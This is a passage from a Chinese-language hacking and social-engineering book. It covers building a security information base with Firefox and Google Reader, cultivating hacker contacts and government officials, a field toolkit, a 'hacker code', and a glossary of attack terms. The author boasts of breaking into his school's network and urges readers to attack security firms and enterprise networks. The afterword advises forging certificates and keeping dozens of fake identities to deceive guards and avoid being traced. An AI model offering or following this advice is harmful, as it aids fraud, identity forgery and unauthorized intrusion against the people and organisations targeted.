老旧的入侵渗透模式与攻击技术不应玩至厌倦，你要不断创造更有效率而独特的入侵技术。一味重复别人发展出的攻击模式与黑客软件时，那么你不再有“黑客”称号，因为你丧失了学习与创新的能力。我不止一次在 BBS 上看到无知的脚本小子们的“神气”言论：“不过是玩残了的 SQL Injection 而已，很无聊！”但令人诧异的是，国内新的攻击模式都是从国外模仿而来的。据我所知，渐进式的 SQL 注入已发展出利用 Google 进行全自动的脚本攻击。目前，许多菜鸟们乐此不疲地使用老旧的攻击模式享受在网站上挂黑页的乐趣，而我想说，乐趣不一定局限于盗号与挂马；终有一天你将审视自己，重复性的流量买卖、账号交易让你学习到什么？

生命并不是无限的，让我们用有限的生命去创造无限的价值吧！何不努力地让自己在媒体们所报道的“中国黑客创新传奇榜”里占有一席之地？我觉得这才是你向世人展现高价值的地方，而不是通过黑站在圈子里获取低价值。

一切迹象表明，中国尚未出现优秀的黑客，80 至 90 年代活跃的前辈们只留下点滴传奇便消隐于商业公司中。而今天创新的责任，便在我们年轻的一代中。互联网 Web 2.0 与无线智能的发展，使大家有更多的空间去挖掘未知安全威胁。新的社会工程学攻击将颠覆传统的渗透攻击格局，这将以前的单一攻击升级为交互攻击，最终演变成将许多不可能的事情都变成可能。

例如，软件作者不仅要担心自己的软件被破解，还要受到社会工程学师对源代码窃取的威胁，即攻击者从软件下载站查询作者信息，并采用各类方法进行欺骗，最终窃取源代码。商业安全软件公司也是攻击重灾区，因为现在太多的用户都已经树立了安全概念，知道通过安装防护软件来对电脑进行保护，击溃安全软件公司对任何黑客都是很棒的挑战！请你现在开始技术创新，要是通过无线技术攻陷企业内部网络，那可是令人兴奋的事情！

#### 9.2.9 组建庞大信息库的方法

所有的黑客通常都会遇到一个问题，他们不能像 FBI 一样拥有庞大的、可随时调用的信息数据库。在渗透攻击的过程中，遇到问题总会需要查询相关的信息。例如，在终端操作时会出现未知的提示信息，我们必须通过查询关键字获得更为详细的信息。

典型的解决方法是利用搜索引擎来寻找答案，而大家都知道，从数亿的信息中瞬间获取精准的答案需要更为准确的关键字与语法，这通常很费时间与精力，也可能因为找不到答案而终止这次的入侵。

组建信息库是最好的解决方法，即将含有优秀资料的站点信息聚合起来，当需要时便可随时查询。无论如何，对每个社会工程学师来说，建立信息库都是有相当必要的，强大的 Google 与 Firefox 的搭配将解决这个问题。

### 9.3.1 Firefox

开源的浏览器 Mozilla Firefox 在国内称之为火狐网页浏览器，但 Firefox 的形象被一些无良的广告牟利者弄得很糟糕。尽管如此，Firefox 仍然是全球第一款极佳的网页浏览器，我不是指它的速度与引擎如何，而是它所拥有的数千个志愿者所开发出的扩展插件！简言之，扩展插件就是 Firefox 的灵魂。下面介绍几个我常用的 Firefox 扩展插件，它使得信息处理更方便。

#### Del.icio.us Bookmarks 1.5.44

这是美味书签的一个扩展插件，主要用于随时收藏你的网址。有了它，网址添加的操作变得只需点击一个鼠标便可搞定。使用之前需要在 http://del.icio.us 注册一个账户以便保存网址。在使用美味书签服务时，别忘记关注其他用户的收藏，有的用户专门把网址弄成了专题，甚至还有“俄罗斯黑客网址大集合”，如图 1。


#### Fullerscreen 2.3.3

这是一个全屏幕的扩展插件，可将整个网页全屏化，菜单栏与任务栏都隐藏起来了。它的好处是可以让你专心处理、分析网页中的信息，减少了更多的键盘与鼠标操作。例如：现在我使用插件后在 Google Reader 每天处理超过 4 万条的项目仅需 30 分钟，以往需要的时间可能会超过 1 小时以上。

安装完 Fullerscreen 后，你会在浏览器状态栏看到一个四方形的图标，点击即可全屏化，如图 2。


#### Hyperwords 3.0.3

一个功能强大的右键工具，任何社会工程学师都会需要它。它能完成大部分的信息处理，可就某个关键字进行查询，并且定义多个搜索引擎集中对某个字符串进行相关查询，还可就网站服务器进行 Whois 与 DNS 的查询。如果你想完整地使用所有功能，最好使用 TOR。

你可以将本书第三章中所提到的不同信息查询的网址添加到这个工具中，将它们都整合起来，注意最好别添加 LiveSearch，那会导致该扩展插件罢工。


图 3

#### Zotero

这是一个帮助收集、管理和引用信息的扩展插件。当你在浏览任何站点时，看到有用的信息内容，只需用鼠标将信息选中，点击右键选择“将所选内容添至 Zotero 便笺”即可存储起来，同时还可将信息进行分类整理，如图 4。


图 4

Firefox 的扩展插件实在太多，限于篇幅就不多加介绍了，你可以参考下面两个网站的说明：

- http://www.firefox.hk/
- https://addons.mozilla.org/zh-CN/firefox/

### 9.3.2 Google

在使用 Google 建立信息库之前，一定要多注册几个 Google 账户做好准备，我们将说明如何用 Google+Firefox 建立一个安全主题的信息库。

我注册的账户为 lizaib.security@gmail.com，将用 Google Reader 作为安全信息库，即 Google 的 RSS 阅读器；我的目的是通过 Firefox 的 RSS 抓取器获取安全站点与安全博客的 RSS 种子。当 RSS 种子越多，信息库自然就相当丰富！无私的网友们都会将他们的经验第一时间告诉你；并且，你一旦抓取了他们的 RSS 种子，即使以后某些文章被删除了，Google 也都有备份！

#### 第一步：抓取 RSS

Firefox 本身具有对 RSS 种子进行分析的功能，因此你打开某些安全站点时（通常为博客、论坛），注意 URL 栏最后一端的四方小图标，如果出现就代表获取到 RSS 地址。

例如抓取《黑客手册》论坛的 RSS，先用 Firefox 打开 http://www.nohack.cn/bbs，在 URL 栏右端看到淡黄小图标，用鼠标点击即可。接着当前页面会自动跳转到 Google 页面，并显示出论坛的 RSS 地址，在下面你还可以选择阅读 RSS 的界面，如图 5。


图 5

进入 Google Reader 界面后，可为《黑客手册》分类至“黑客社区”，如图 6。


图 6

#### 第二步：获取 RSS

获取 RSS 可以理解成寻找黑客站点、博客的意思，一般都是通过四种途径获取：搜索引擎、博客友情链接、论坛与网站友情链接、RSS 主题网站（鲜果、抓虾等）。所有的黑客社区都有一个共同点，那就是彼此连接或是连接更广的范围，因此可点开一个，并从中找出另一个，再重复性地 RSS 订阅即可。

为了减少读者们的体力活，我准备好了安全主题 RSS 资源全集，你可以从光盘中找到这个 RSS 集合的 OPML 文件：google-reader-subscriptions.xml，它订阅有 213 个安全博客、社区的信息。你可以使用 Google 账户登录 Google Reader，在右上的“设置”处找到“导入/导出”的功能，上传 OPML 文件导入 RSS 资源，再返回 Google 阅读器就可看到安全主题 RSS 资源。

至此，你的黑客信息库构建完毕。当需要查询时，直接在 Google 阅读器上方进行搜索即可，如图 7。


图 7

## 第九章 像米特尼克黑客一样

上述的信息库不但能为你解决技术问题，还解决了你的学习困扰。在本节开始我提到一定要准备多个 Google 账户，你知道这用于什么吗？我们刚才建的信息库你可以不断地增加 RSS，但全部看完对没有阅读 RSS 经验的人来说是件难事。我们可以把不同类别的信息用这些账号来进行分类，比如第三个账号就可以加入自己所关心、感兴趣的 RSS 资源，包括安全新闻、漏洞公告等。

同时，在 Google Reader 看到特别的主题时，别忘记加上五星标记或是进行共享项目的设置，以帮助进行信息整理。建议：强大的 Google 能在互联网做任何事，你得随时关注 Google 推出的新服务。

### 9.4 智囊团，你的人脉资源

牧马者、病毒者、脚本小子、exploit 好手、编程牛人……黑客技术涉及太多的编程语言、系统平台，那些入侵技术我们迟早都要碰到。在开始学习时，难免会碰上一堆无法解决的问题，如果有人旁侧提示、指导，那么入门就更有效率。

但问题是，你在进行操作的时候身边却没有一位合适的朋友，就只能被迫求助于搜索引擎或是在论坛上发帖，漫长的等待有可能还不会出现你想要的答案……如果你正遇到这样的问题，那一定是你没有建立“智囊团”！

智囊团不局限于解决问题，而是资源的交换互用。也就是说，双方处于公平状态，其中的一方需要展示价值，以说明未来我也能帮助你。用商业词汇的说法就是“整合资源”，你的长处可以解决我的短处，我的长处也能弥补你的短处，更直接地说，就是相互利用。因此，我得提醒你，想保持长久的技术资源交换，你必须向对方展示你在某个领域的成就价值。

另外，这其中还包括信息交换。比如智囊团里的某个朋友熟知某个专业的情报时，他会和你分享，谈论最新的商业产品具有如何的功能，以及产品相关技术的细节。典型的例子是，你和某安全软件的技术开发者成为朋友时，就可以从他那里获取该软件更为详细的细节，其缺陷也就更容易被发现。

当你的人脉资源与圈子相当庞大时，可供你选取与展示价值的机会就越多！你随处都可如鱼得水，生存机会就会更多！我将智囊团的建立分为两种环境：一种是简便的网络环境，一种是现实生活中相当复杂的环境。

### 9.4.1 IM、BBS

别误以为在网络环境中建立智囊团很容易，加对方为好友然后再客套几句话就行了。这样的智囊团可不会出现你期望的效果，我们需要一个前提条件——在网络展示你的价值。

为什么公开源代码与免费软件的黑客很受人尊敬？一方面是认识了他的技术，另一方面是记下了他的网络 ID。更重要的是，这位备受人尊敬的黑客试图去认识比他技术更高的人时，对方通常都会尝试查看他的资料，以及使用搜索引擎查看他是什么来历，以确认是否应该给予回应。因此，在你计划建立智囊团的时候，有必要先在网络展现你的等级价值，一般可采取以下几种方法。

- 1. **建立博客**

使用专业的博客模板，避免花哨的样式。你的博客资料处应留下邮箱地址作为明确的标识。同时，博客主题应有你的原创，如你精于脚本，就要放上自己的漏洞分析报告。简而言之，你必须分享自己的技术与软件作品，并且文章与软件都留下相关联系方式！

- 2. **正规的作品**

人们常以高标准作为评估条件，也可以说是思维惯性思考。他们对权威的杂志、知名论坛着迷，这就要求你有必要在安全杂志或者知名度较高的论坛发表你的技术作品。这样，很多人都会了解到你的名字，转载你的作品；无形中你的价值被放大。

- 3. **活跃于论坛与邮件列表中**

当你有点时间，不妨活跃在知名度较高的论坛里，如在技术区指点一个人，灌水区瞎扯几句话，适当地制造一点冲突……当你大大活跃两个月左右，论坛管理者都开始留意你的网络 ID 了，有可能会根据你的表现提升你的权限。

假设你目前精于脚本攻击，想迈向 exploit 攻击，在价值展示工作做完后就可以花一段时间去建立 exploit 智囊团了。

首先你要分析这类人群集中在哪个社区，如安全焦点（xfocus.net）、幻影旅团（ph4nt0m.org）、看雪学院（pediy.com）等。进入社区后一边发帖，一边留心观察你需要注意的论坛 ID，将他们的联系方式 IM、mail、Blog 等整理起来，然后在社区进行自我介绍以及发布相关作品，诚恳请求指导；无形中你的印象会进入被认可的阶段。

至此，你一定要先发送站内消息向对方请求加为好友，接着你不必在意他们是否回复你，可以直接在 IM 上加他们为好友。不要使用客套话，别请求给你解决问题，你应该熟悉对方的作品，就你的疑问进行讨论。当交流进入到某个阶段时，你们所拥有的关系使其成为你智囊团的一部分。

几乎所有搞技术的人都会加入一个圈子，比如 QQ 群、MSN 群等，使有相同兴趣的人易于交流并共享技术，这是一个很不错的建立智囊团的方法，如图 8。

### 9.4.2 社交活动

与上述不同的是，利用社交活动建立的人际关系称之为人脉资源，而不是智囊团。高明的社会工程学师会需要与政府人员建立政治关系，以及与商业机构建立雇佣关系，这将拓宽你的信息渠道；你可以第一时间获取到当局的政策变动以及商业状态。

拿政策变动来说吧，这是极其重要的，政府部门控制了整个国家的命脉，其拥有直接的控制权力。例如，广电总局可以通过整改令使国内民间网络播客网站关闭。

大部分政策变更由于实施的不透明性，使得公众无法及时获知。如果你的人脉资源中有相关人员，他们给你提供的信息可令你随时做好准备。你可以知道选择哪些即将上涨的股票；抢先购买即将上调价格的商品等……对于商业机构的主管来说，他们的价值也是如此。

接下来谈及的人脉资源建立分为两种：政府人员、商业人员。

在你开始行动之前要摒弃一个错误的观点：“他们高高在上，是无法接近的。”要知道，所有的人同在一个世界中，而区别仅仅是价值的不同而已。他们的名字后面只是挂了一个称呼，在每个社会工程学师的眼里，它们都毫无用处。如果你的脑中被灌输了传统观念，如男尊女卑等陈腐的思想，那么这里所谈及的方法可能无法适用于你。

当你想接触政府人员时，最好先通过本地政府机构、报刊、电视整理出一份标有政府不同部门人员职责与管辖范围的名单，再根据实际情况筛选所需要用到的人员。并且，你还要做额外的信息收集，比如收集本地社交环境，包括高尔夫球场、星级酒店、度假村等，这些地方也有可能获取政府人员的出入记录。因为中国人比较好客，重面子，一般的政府公务处理，如接洽外资等，都需要出入上述社交环境。

在确定接触的目标后，别忘记收集他的个人资料，设法找出共同的兴趣与话题，如对方从入党到职位升迁的政治经历，这类资料政府是对外公开的。

接下来要做的是面对面的交流。若你打算用送礼、购买基金等来打开僵局可是严重的错误，应该利用第三方人员把你介绍给对方，即通过本地公司的负责人、主管等进行介绍，再递出自己的名片。

在出入社交环境时，你必须与他们分享重要的信息。例如，你知道港台地区的经销商有意与内地建立发展的信息，你有能力将本地农产品倾销到各地……简而言之，你掌握的信息能带动这个地区的经济发展与改革时，你所建议的政策都会受他们欢迎，他们乐意与你成为朋友，因为你提供的有效信息将提升他们的政绩。

相对于商业机构的人员来说，无论员工还是总裁，都重视价值，你最好成为他们稳定的客户，或者成为某个员工的朋友，邀请需要的人员参与社交活动便可。

估计看这本书的读者应该更多的是高中生、大学生等年轻群体。不要因为尚未走出社会而忽视建立你的人脉资源。在周末有时间时，你可以参与一些活动，接触或拜访相关政府及商业人员。你可以在社交场合兼职，或者参考学校的一些活动，这都会增加你的人脉资源及社会经验。请记住，认识更多的人对你来说并不是一件坏事，这也就是满足人的层次需求中的社会需求。

### 9.5 准备好你的工具箱了吗？

在使用社会工程学技术时，除了大脑外还需要一些工具处理获取的信息。例如，与重要人员的谈话内容要保存起来；从众多的文档中标记出敏感信息；明天的天气是否晴朗……那么，准备好你的工具箱了吗？

### 智能手机

一台智能手机就相当于一台微型电脑，我们需要用到的功能包括：通话、SMS、PDA、GPS、拍摄、视频录制、音频录制等。推荐使用性能卓越的智能手机，如果存储的数据相当大，你要考虑它的存储容量！在拍摄视频、音频方面，其功能必须强大，比如拥有高像素（200 万以上）与镜头变焦等功能。目前可供选择的有诺基亚、摩托罗拉、黑莓、iPhone 等品牌的智能手机。

### 手表

做任何事都必须有时间观念，以使发生的事情都在个人的控制范围内。虽然手机有显示时间的功能，但并不方便随时查看。

### 笔记本

能拥有一台苹果出品的 MacBook Air 是相当酷的！易于携带的笔记本加上无线网卡能力便可随时接入网络，这很有必要，它能完成大部分的数据整理与分类的工作。

### U 盘

也可以是其他的移动存储设备，能方便携带并拷贝数据，性能也必须卓越！我曾经有一块容量 2G 的 U 盘，复制 100 兆数据让我抓狂——速度超慢的伪劣商品……这点时间足够被和谐了！

### 闪亮护眼液

你会需要它的。当长时间操作计算机时，眼睛会感到干涩难受，它能保护你的视力。

### 信用卡

一定要准备多家银行的信用卡，方便你随时都可收到雇主汇来的钱，易于携带和交易快捷方便也是其特点！请保护好你的口粮吧！

### DVD 光盘

准备 2 张，一张集成了可启动的 miniLinux 系统及 Linux 平台的无线攻击工具；另一张为 Windows 平台下的可引导式黑客工具包，并且要分类整理，以便随时调用。

### 板夹、A4 纸、荧光笔、水性笔

不管在外还是在你的工作间，总会处理实体信息，即要处理通过打印机与手写所产生的资料，这些工具将方便你处理信息。例如，我使用了 Comix 的板夹、玛丽 A4 纸、德国辉柏嘉黄色荧光笔、晨光 M&G 中性笔（0.3mm）。

### 名片

请专业的公司为你定制并印刷千份，拿出 20 张备用。

最后，请将上述的工具都准备好，“工欲善其事，必先利其器”，说的就是这个道理。当然，上述的工具并不局限于此，你可按个人的需求进行定制，最大化地使用工具能让你随时掌握信息。

《世界是平的》一书作者托马斯·弗里德曼就科技发展指出：“全球的竞技场变平了，世界变平了。”世界真的变平了吗？不！世界没有变平！在本书最后一部分，我告诉《黑客手册》初级读者如何认识自己、认识世界以及认识黑客，我愿意与你探讨如何顺利走入这条不平坦的黑客道路。

### 9.6.1 端正的态度

成长于物价飞涨而浮躁的国度，对于尚未走出社会的群体来说，你们对整个国家的结构并不了解。你们看到的电视与新闻总充斥着相近的报道，你们成长时被灌输的价值观是考上名牌大学，成为薪水高有保障的公务员……无论走到哪里，总被迫接受大量的规章与制约，你不再记得小时候的梦想是成为画家、作家、运动员……你会沮丧地说：“我无法做自己想做的事，因为那些梦想遥远而不可及。”

在油菜花盛开的春天，我走在大学的街道上，回忆着一些疑问：为什么越来越多的人都戴着眼镜？为什么越来越多的人行色匆匆？我只能想到一个答案：在人口众多的中国面临着生存压力。我并不建议大家为了一张文凭而去耗尽青春活力，我的朋友告诉我：“文凭只是摆着看的，不能当饭吃。”

**说了这么多，我们到底以怎样的态度面对人生呢？你应持积极的态度，应做你感兴趣的事，有你自己的一个梦想！环境无法改变，解决之道是改变自己！**

不要再去抱怨自己没有良好的学习环境而无法认真学好黑客技术，圈内的人大多数都和我一样，在对黑客感兴趣之前根本就没有条件购买一台属于自己的电脑。那时学校还有诸多的限制阻止学生进入网吧，甚至家长与教师一视同仁认为网吧是罪恶之源。

面对这样的糟糕环境，我从未终止对黑客的向往。我放弃了绘画的学习，同时想方设法地步入网吧，通宵地尝试入侵站点，并在校报发表有关计算机安全的作品。凭借着这疯狂的投入，我的父亲被迫给我买了一台电脑，接着我再通过一定的渠道将自己的电脑连入学校内部网络。

在某一天的凌晨 4 点，我入侵了学校的网络中心，并相继控制学校数个机房及部门的计算机，我的黑客之路正是由此展开。

当你没有条件时，你就要设法创造条件，改变你局限的环境。在 CRST 与 EST 等安全团队，读者们应该能找到一些熟悉的偶像，包括入侵腾讯的炽木，精于汇编的 Asm 等。他们从来就没有好的条件去学习技术，大多数技术水平较高而活跃于安全小组的人，并不是来自名牌大学，如熊猫烧香病毒的编写者学历仅为中专。

请记住，你所处的环境实在太糟糕时，千万别放弃你的兴趣与追求的梦想。可以尝试去改变，一旦有机会就得抓住！

### 天才就是百分之九十九的汗水加百分之一的灵感

大家有没有和我一样经历过这些事：曾经花了三天三夜才攻陷一台服务器；看安全杂志的文章，会在计算机上调试整个夜晚；学习一门新的编程语言时，会因为一些变量而弄得焦头烂额……老实说，黑客比上学更累。

黑客技术的学习永无尽头，就像摆放在网络上的服务器一样。它们越来越安全，使你要反复不断地进行黑箱尝试，甚至还要架设相同的平台挖掘出系统与程序的漏洞。这就像爱迪生发明灯泡的过程，在不断的失败中获取到更多的经验，从而攻陷这台主机。

**失败没有什么大不了的，但千万别把失败当作借口而放弃所做的事情。**

### 9.6.2 黑客的信仰

黑客，一个神秘而浪漫的词汇。第一次看到这个词的人会在脑中构造一个想象：身着黑色装束的黑客，在键盘上飞快地敲击着按键，像在弹奏着一部快节奏的钢琴曲。随着显示器不断刷新网页呈现不连续的光线，一个漏洞被挖掘，或一个系统被攻陷……

**黑客的信仰是什么呢？自由、免费、共享！** 这个原则是始终不变的。黑客是富有激情的！喜欢冒险的！喜欢挑战系统巅峰的！

然而，我可能无法向读者或是黑客爱好者完整诠释黑客的精神，我担心任何一点的说明都有可能误导你心目中对黑客的看法。但我想告诉你一个故事：大概五年前，一个正值青春的男孩第一次在网吧接触互联网时，他并不知道什么叫 QQ。在他旁边的人正激烈地玩着游戏；他很茫然，因为他不会使用键盘；自然也打不出一个字。

他用鼠标费劲地把桌面的图标全部点开，看着满屏花花绿绿的界面发愣。这时他旁边一个年龄稍大的男生问他：“你不会上网？”

男孩说：“是的。”

大男生继续问：“那你想玩游戏还是当黑客？”

男孩奇怪地问：“什么叫黑客？”

大男生笑着说：“我用狗狗（Google）查给你看！”

说着，大男生打开了一个网页，指着它并告诉男孩：“你自己看吧，别影响我玩游戏！”

于是，男孩就专心地看起来了……网页中的内容实质是最早从国外翻译过来的黑客守则与黑客精神，从此，男孩就被深深地吸引并立志成为黑客……那个男孩也就是我！当然，我仍然还不是黑客。

这里放上那时的黑客守则与黑客精神，希望能帮助你成长！

### 黑客守则

- 1、不要破坏任何的系统，这样做只会给你带来麻烦。
- 2、不修改任何系统文件，如果你是为了要进入系统而修改它，请在达到目的后将它还原。
- 3、不要轻易地将你要 Hack 的站点告诉你不信任的朋友。
- 4、不要在论坛上谈论关于你 Hack 的任何事情。
- 5、在 Post 文章的时候不要使用真名。
- 6、入侵期间，不要随意离开你的电脑。
- 7、不要入侵或攻击电信／政府机关的主机。
- 8、不要在电话中谈论关于你 Hack 的任何事情。
- 9、将你的笔记放在安全的地方。
- 10、读遍所有有关系统安全或系统漏洞的文件！
- 11、已侵入电脑中的账号不得删除或修改。
- 12、不得修改系统文件，如果为了隐藏自己的侵入而作的修改则不在此限，但仍须维持原来系统的安全性。
- 13、不将你已破解的账号分享给你的朋友。
- 14、不要侵入或破坏政府机关的主机。

### 黑客精神

- 1、这世上充满着等着被解决的迷人问题。
- 2、没有任何人必须一再地解决同一个问题。
- 3、无聊而单调的工作是有害的。
- 4、自由才好。
- 5、态度并不等效于能力。
- 6、写免费的软件。
- 7、帮忙测试和调试免费的软件。
- 8、公布有用的资讯。
- 9、帮忙维持一些简单的工作。
- 10、为黑客文化而努力。

## 附录

以下为本书所涉及到的黑客术语：

- 1. 木马（Trojan horse）

名称取自希腊神话的特洛伊木马攻击计，意指表面看似正常的文件或是正常的系统操作，但攻击者在背后偷偷动了手脚，已经控制了系统。

- 2. 后门（Back Door）

为帮助攻击者再次顺利登录已被入侵的主机所置入的特殊程序，它本身就具有系统权限并难以发现。如克隆的账户，将正常文件替换为 Windows 的放大镜工具的后门程序。

- 3. 代理（Proxy Server）

通常作为网络访问的中转站，除了用作典型的 IP 隐藏外，还用于 CC 攻击、投票作弊及帮助地下黑客进行恶意的刷流量作弊，并有不同的代理方式。

- 4. 注入攻击（SQL Injection）

实质为一种数据库语言查询方式，也称为脚本攻击。由于程序员未对相关变量进行过滤而导致产生逻辑漏洞，可被攻击者查询到登录口令，以及上传脚本木马。

- 5. 肉鸡

早期俗称 3389、4489 肉鸡，用以泛指从这个系统端口进行批量的计算机入侵。肉鸡主要描述为被黑客获取系统权限的主机，可充分调配硬件、软件资源。

- 6. Rootkit

一种用于获取系统访问权限的工具，它能帮助病毒、木马后门隐藏于系统中，使用户无法察觉。其还包括对文件、进程、端口的隐藏，是未来黑客攻击的发展趋势。

- 7. 缓冲区溢出（Exploit）

为利用系统文件漏洞所编写的攻击程序，主要由于 C/C++ 编译器先天的缺陷引起。你可理解为杯中水充满后的溢出，而溢出的水为恶意指令。

- 8. 蠕虫（Worm）

是一种相当危险的系统攻击方式，它一般将正常文件作为宿主进行传播、感染，多数利用系统漏洞的缺陷以及不断的更新进行大规模攻击。

- 9. 嗅探（Sniff）

利用协议的缺陷进行数据包截获从而达到网络窃听，一般用以截取进入系统（HTTP、FTP、TELNET）时的登录口令，适用于明文传送的数据截取。

- 10. ARP 攻击（ARP，即 Address Resolution Protocol，地址解析协议）

地址解析协议作用于数据双方 MAC 地址上进行通信，恶意的攻击者可以通过伪造 MAC 地址产生错误的数据包进行会话劫持。

- 11. 中间人攻击（MITM，即 Man-in-the-middle）

即恶意劫持正常用户的会话，从而接管他们之间的数据传输。典型的攻击方式有钓鱼攻击、ARP 攻击、DNS 攻击等。

- 12. 跨站攻击（XSS，即 Cross Site Script）

是目前最流行的脚本攻击手法，一旦脚本代码没过滤输入数据，所插入的恶意指令可模拟按键进行后台提交，多用于 .js 文件控制。

## 13、跳板

许多攻击与入侵都会在系统日志中留下可被追查的记录，跳板主要就是起到隐藏攻击者原始物理IP地址的作用，从而防止被通过系统日志的记录来追查。

## 14、黑箱与白箱测试

在经过授权的情况下所进行的入侵渗透测试，黑箱意为在没有源代码与未掌握网络环境下的入侵测试，而白箱的意思正好相反，是在有充足信息的前提下进行测试。

## 15、Google hacking

从早期通过手工利用Google蜘蛛抓取的内容进行寻找网络中存在安全缺陷的主机开始，现已转化为全自动化的Google黑客工具自动筛选攻击目标。

## 16、免杀

针对杀毒软件对病毒与木马定义的特征码进行修改，用以逃脱查杀，也可理解为病毒、木马的变种。共有三种免杀方式：文件免杀、内存免杀、行为免杀。

## 17、提权

也称提升权限。例如管理员设置A用户能访问系统目录，而B用户无法访问，则B设法利用系统与应用程序的缺陷提升权限，如利用ftp.exe提权程序。

## 18、内网与外网

内网通俗地讲就是LAN（局域网），如网吧、校园网、企业网等，它们局限于三个IP范围，即10.0.0.0、172.16.0.0、192.168.0.0；而拥有公网IP的网络称之为外网。

## 19、弱智口令

泛指粗心大意的计算机用户，他们为了避免麻烦或是懒惰，通常使用简单的字符串作为系统登录口令，如123456、password、admin、iloveyou等等。

## 20、暴力破解

一种穷举方式的密码破解，通常要准备好密码词典。社会工程学师通常先收集用户信息来制作词典，并载入相关的暴力破解程序进行破解。

以下来自王小瑞翻译凯文·米特尼克《欺骗的艺术》所涉及到的黑客术语。

## 1、马克（MARK）

受骗者。

## 2、激警（BURN THE SOURCE）

攻击者如果让对方看出来攻击的意图，就被称之为激警。一旦对方有所警觉并通知其他人员，以后再想套出类似的信息就十分困难了。

## 3、秘密通信池（Mail Drop）

社会工程学师把租来的邮箱称为秘密通信池，通常是用假名字租用的，用来接收受骗者发来的文件和包裹。

## 4、反向社会工程学

攻击者设计的一种情形，受骗者碰到问题时会联系攻击者求助。另一种反向社会工程学是对付攻击者的，当被攻击的目标发现对方是攻击者后，利用心理影响尽可能地从攻击者身上套出信息以保护企业的信息资产。

## 5、秘点（DEAD DROP）

## 附录

## 6、软心糖豆堡

贝尔实验室的贝劳艾和切斯威克提出的说法，用以描述一种安全状况。意思是说外部防御十分强壮，如防火墙；但其内部安全却十分脆弱。这个说法来自于M&M巧克力：这种糖果有着坚硬的外壳和柔软的糖心。

## 7、地下酒吧式的安全

知道自己想要的信息在哪里；并且使用一个词或名称来获得对此信息或计算机系统的访问权，是一种安全形式。

对于早期的地下酒吧——那些在禁酒令时期提供自酿酒的夜总会，当一个顾客需要时，他可以走到门前敲门，然后门上会打开一个小口，里面是一张冷冰冰的脸。顾客需要说出此地的老主顾（比如说一句“乔让我来的”就可以了），看门的把门就会打开，让他进来。

这个事情的关键在于知道这个门上没有标志的地下酒吧的位置，通常只要能找到地方就基本可以进入。很不幸，同样的安全措施目前在许多企业中广泛存在，这种没有任何保护的安全级别被称之为地下酒吧式的安全。

## 8、隐晦安全

一种效率低下的计算机安全手段，通过对系统运转细节（协议、算法和内部系统）的保密来达到防范目的。隐晦安全假定可信任成员组以外的人不能接近系统，因此这种安全也并不可靠。

## 9、双因素认证

用两种不同的验证方式对身份进行确认。比如，一个人必须从某个可确认的地方打来电话，并使用知道的口令来确认自己的身份，然后工作人员从他设置的验证信息中选出某个条目（通常为社会保险号码、出生日期或是母亲的姓氏等）来进行询问。如果答案正确，这就是第二次的验证——基于你应该知道的信息。大家比较熟悉的就是《黑客手册》的论坛登录方式，除了输入用户名和密码外，还必须回答正确自己所设置的问题。

比如一家生产安全无线电系统的公司，每一名有权访问计算机的职员都有自己的账号和口令，并另外配备一个叫做安全ID的电子小设备，这就是时间令牌。它有两种型号：一种只有一张信用卡的一半大小，但稍厚些。另一种小到可以挂到钥匙链上。

这个特殊的装置由加密技术衍生而来，它的上面有一个显示六位数字的小窗口，每六十秒改变一次。当一位得到授权的用户从外部访问网络时，他首先必须输入他的PIN码和令牌上的数字，依次来确认自己的身份。内部系统一旦予以确认，他就可以输入用户名和口令进行认证。

## 10、哑终端

一台没有处理器的终端，只能响应简单的控制码和显示字符及数字。

## 11、逆向骗局

一种入侵手段，让被攻击者向攻击者寻求帮助。

## 12、垃圾搜寻

从一家公司的垃圾中（通常是在外部和易受攻击的地方）找出被抛弃的可用于社会工程学攻击的信息，例如内部的电话号码或资料。

## 13、复圈

电话公司术语，当电话被拿起时接通一个特殊的号码。

## 14、呼叫拒绝

电话公司的一个服务选项，设置某个电话号码无法呼入。

## 后序

### 你可以做得更好

当写完本书最后一章时，我终于松了一口气，这段时间耗费了自己很多的精力。很显然，在社工这方面的攻击技术，我的经验仍不足够，而本书最终的目的只是让读者们深刻理解这一前沿的黑客攻击。

### 伪造你的身份与角色，并使用

从安全的角度来说，这是很有必要的。拥有多重身份与角色可将复杂的攻击变得更加简单，确切地说，假身份比真身份能做更多的事。例如，我的角色就有MBA管理、心理学咨询、安全顾问、网络工程师等等，并且我都完全拥有这些专业的经验，获取这样的证书并非难事，你可以去报考或者伪造，虽然我一再说明证书没有什么知识价值，但却是最有效的欺骗工具。你能想象电视中的暴力警察么？一张警员证可进出任何房子。

同时，一个伪造的身份也很重要！噢，别与角色搞混了，它指的是身份证信息，包括真实姓名、家庭住址、出生日期等等。

为何要这样准备？当公司的门卫要求你填写出入记录时，你打算如何做？临时编一个假身份吗？千万别那么做，还是好好提前准备一份假身份信息吧。不想被追踪，千万别告诉人们你的星座与血型，通过这些可以很容易地查询到你的真实信息。

例如，我伪造的身份就有30多个，这其中有中国17个省的身份，剩下为美国、韩国、日本、台湾身份，这样我在接受不同机构的质询与站点注册时，都使用已准备好的身份信息。身份伪造的信息可以直接从Google提供的信息中进行整理，至于身份的证件，除非有必要，你不需要获得它。

### 学会两种国际自然语言，并运用

你能和银行家、政府官员、企业经理、电信员工等不同领域的人进行谈话没有什么令人吃惊的，但如果和全球不同的人种进行交谈那才是疯狂的！放心，我不会让你去学习世界语言的，而真实的含义是：精通多种世界语言并非用作交流，而是用来学习。

一个不容忽视的事实是，尽管中国经济渐渐成为世界中心，但技术发展仍然落后，关于中国黑客技术的发展就是最好的例证。

例如，某日新浪科技翻译的新闻指出iPhone存在安全缺陷，而才过一天，俄罗斯破解组织就公布了利用这个缺陷而制作的破解工具与详细的技术资料。一直到一个月之后，这份破解工具与技术资料才汉化并翻译成中文在国内流传。信息时代，掌握了多种自然语言能使得你及时了解全球最新的技术内幕。

一般而言，英语是全球化最重要的语言，其次为俄语。当然，这并不能在短时间内掌握，但你最好准备相关的词典来学习。

### 购买报刊与订阅社会博客，并阅读

如果没有人及时告诉你国家动态以及全球大事件时，你会走入信息孤岛。每个社会工程学师都应该避免走入信息孤岛的危险，否则的话，你将无法控制未知的威胁！

为何要去控制？当你读完整本书全章就会发现，无论是钓鱼攻击还是心理学攻击等，一切都处于社会工程学师的控制范围，他们甚至可以把目标强制局限在无法选择的空间中。

这个控制主要是基于规则上，例如，操作电脑会使用相应的方法；写一篇优秀的安全文章也有其规则；说服一个人或是谈判都有方法……毫无疑问的是，人类除了无法控制宇宙及大自然外，所有的一切都是可以控制的。

